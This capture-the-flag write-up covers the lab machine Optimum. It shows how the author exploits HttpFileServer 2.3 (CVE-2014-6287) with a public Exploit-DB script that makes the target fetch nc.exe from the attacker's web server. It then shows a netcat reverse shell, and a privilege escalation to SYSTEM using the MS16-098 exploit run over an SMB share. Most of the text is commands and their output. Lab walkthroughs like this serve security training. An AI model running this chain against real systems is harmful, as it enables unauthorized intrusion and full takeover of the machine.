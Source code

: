 Service is open in port 80 so checking the website we see a running server called HttpFileServer version 2.3. After looking for some info we found the vulnerability CVE-2014-6287 and this **[verified exploit in exploitDB](https://www.exploit-db.com/exploits/39161)**. Watching the code it says that we have to publish the nc.exe binary in a web server (http://<attackers_ip>:80/nc.exe) to be retrieved in machine a used to get a reverse shell

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Optimum-10.10.10.8]
└─$ locate nc.exe  
/home/kali/Documents/StartingPoint/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
                                                                            
┌──(kali㉿kali)-[~/Documents/Boxes/Optimum-10.10.10.8]
└─$ cp /usr/share/windows-resources/binaries/nc.exe . 
                                                                            
┌──(kali㉿kali)-[~/Documents/Boxes/Optimum-10.10.10.8]
└─$ python3 -m http.server 80                                  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

After that we have to modify the code with our IP and Port, open a netcat listener and execute the exploit

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Optimum-10.10.10.8]
└─$ source ~/Documents/virtualenv_environments/python2.7/venv/bin/activate
                                                                            
┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Optimum-10.10.10.8]
└─$ python 39161 10.10.10.8 80

----------------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 443 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.8] 49166
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

And we got a shell, now lets escalate privileges. Using Windows Exploit Suggester we decide to use the vulnerability MS16-098, and we will use **[this exploit](https://github.com/sensepost/ms16-098/tree/master)**. After downloading this, we will move it and execute it in the victim machine through a smb share

```bash
┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Optimum-10.10.10.8]
└─$ ls
bfill.exe
                                                                            
┌──(venv)─(kali㉿kali)-[~/Documents/Boxes/Optimum-10.10.10.8]
└─$ sudo impacket-smbserver share -smb2support .
[sudo] password for kali: 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

-------------------------

C:\Users\kostas\Desktop>\\10.10.14.14\share\bfill.exe
\\10.10.14.14\share\bfill.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

And we are nt authority\system!